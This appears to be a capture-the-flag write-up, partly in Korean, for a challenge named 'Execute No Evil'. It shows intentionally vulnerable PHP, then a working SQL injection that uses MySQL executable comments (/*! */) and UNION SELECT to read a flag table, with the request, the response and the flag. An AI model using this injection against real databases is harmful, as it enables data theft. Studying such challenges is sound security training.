 # Execute No Evil
> ## Overview
(1) New Message: "Hey dude. So we have this database system at work and I just found an SQL injection point. I quickly fixed it by commenting out all the user input in the query. Don't worry, I made the query so that it responds with boss's profile, since he is kind of the only person actively using this database system, and he always looks up his own name, lol. Anyway, guess we'll go with this til' the sysadmin comes and fixes the issue."

Huh, so hear no evil, see no evil, ... execute no evil?
```php
<?php
include ("config.php");
$conn = new mysqli ($servername, $username, $password, $dbname);

if (isset ($_GET['name'])) {
    $name = $_GET['name'];
    $name = str_replace ("*", "", $name);
    $records = mysqli_query ($conn, "SELECT * FROM users WHERE name=/*" . $name . "*/ 'Geronimo'", MYSQLI_USE_RESULT); // Don't tell boss

    if ($records === false) {
        die ("<p>Our servers have run into a query error. Please try again later.</p>");
    }

    echo '<table>';
    echo '
    <tr>
        <th>Name</th>
        <th>Description</th>
    </tr>';

    while ($row = mysqli_fetch_array ($records, MYSQLI_ASSOC)) {
        echo '<tr>
            <td>',$row["name"],'</td>
            <td>',$row["description"],'</td>
        </tr>';
    }

    echo '</table>';
}
?>
```

> ## solve
우리가 입력하는 $name 값은 in-line comment로 주석처리가 된다.  
때문에 str_replace를 우회해서 * 를 입력할 수 있거나 다른 방법을 시도해봐야 했다.  
먼저 str_replace를 우회하기 위해서 여러가지 방법을 시도해봤지만 잘안되었다.  
mysql 주석에 대하여 찾아보다가 다음과 같은 구문을 보았다.  
```
/*! MySQL-specific code */
```
[https://dev.mysql.com/doc/refman/8.0/en/comments.html](https://dev.mysql.com/doc/refman/8.0/en/comments.html)  
해당 문서에서 설명하기를 in-line 주석안에 !를 사용함으로써 안에서 특정 구문을 실행시킬 수 있다고 나와있다.  
이를 통해 union 구문을 실행하여 information_schema를 통해 flag 테이블의 flag값을 가져올 수 있다.  
> Request
```
/?name=! 'heogi' union select 1,whatsthis,3 from flag union select 4,5,6 from users where name=
```
> Response
```html
<head>
	<link rel="stylesheet" type="text/css" href="style.css">
</head>
<body>
<form class="center">
	<h2>Cobalt Inc. employee database search</h2>
	<label>Name:</label>
	<input type="text" name="name" autocomplete="off">
	<input type="submit" value="Search">
</form>
<br>
<!-- ?source=1 -->

<table>
	<tr>
		<th>Name</th>
		<th>Description</th>
	</tr><tr>
			<td>X-MAS{What?__But_1_Th0ught_Comments_dont_3x3cvt3:(}</td>
			<td>3</td>
		</tr><tr>
			<td>5</td>
			<td>6</td>
		</tr></table>
</body>
```